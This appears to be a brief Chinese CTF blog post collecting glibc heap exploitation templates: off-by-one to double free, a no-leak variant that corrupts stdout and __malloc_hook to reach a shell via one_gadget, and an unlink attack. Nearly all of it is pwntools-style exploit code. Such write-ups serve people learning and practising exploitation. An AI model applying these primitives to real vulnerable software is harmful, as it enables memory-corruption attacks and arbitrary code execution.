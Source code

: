 ```yaml
---
title: 'OFF-BY-ONE:TYPICAL'
date: 2019-08-13 18:24:01
tags: heap
---
```

OFF BY ON 各类典型利用， 本篇非常水...为了恢复一下做题的手感。
<!--more-->
# Leak + Off By One
主要利用方式是:
* OFF BY ONE -> double free
```python
add(0x400)#0
add(0x88)#1
add(0x88)#2
free(0)
add(0x18)#0
edit(0,'A'*0x18)
add(0x88)#3
add(0x88)#4
free(3)
free(1)
add(0x88)
show(4)
#get leak
add(0x78)
free(4)
free(3)
#double free
```
# No Leak + Off By One
* off by one 
* free chunk 4 into fastbin
* malloc 0x80 之后 free 为了留下libc地址
* malloc 0x200 Overlap partial write
* modify stdout to leak
* free chunk 4 into fastbin 
* edit to write fd 
* modify __malloc_hook
* double free to get_shell
```python
add(0x400)
add(0x88)
add(0x88)
free(0)
add(0x18)
edit(0,'\x00'*0x18)
add(0x88)
add(0x68)
free(3)
free(1)
add(0x1f8)#1
free(4)
add(0x88)#3
free(3)
add(0x200)#3
edit(3,'\x00'*0x88+p64(0x71)+'\xdd\x25\n')
add(0x68)#4
add(0x68)#5
edit(5,'\x00'*0x33+p64(0x1800)+'\x00'*0x19+'\n')
p.read(0x40)
base=u64(p.read(0x8))-(0x7ffff7dd2600-0x7ffff7a0d000)
log.warning(hex(base))
free(4)
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
libc.address=base
one=base+0xf02a4
edit(3,'\x00'*0x88+p64(0x71)+p64(libc.sym['__malloc_hook']-35)+'\n')
add(0x68)#4
add(0x68)#6
free(3)
add(0x88)
add(0x18)
edit(6,'\x00'*19+p64(one)+'\n')
free(7)
free(4)
```

# unlink
主要就是伪造堆块 前提是有edit功能和已知&ptr(没有pie或者泄漏了程序装载基址)
```python
add(0x100)#0
add(0xf8)#1
p.readuntil("ss ")
pie=int(p.readline(),16)
log.warning(hex(pie))
add(0x1f8)#2
add(0x100)#3
pay=flat(1,0xf1,pie-0x18,pie-0x10)+'\x00'*0xd0+p64(0xf0)
edit(1,(pay))
free(2)
```


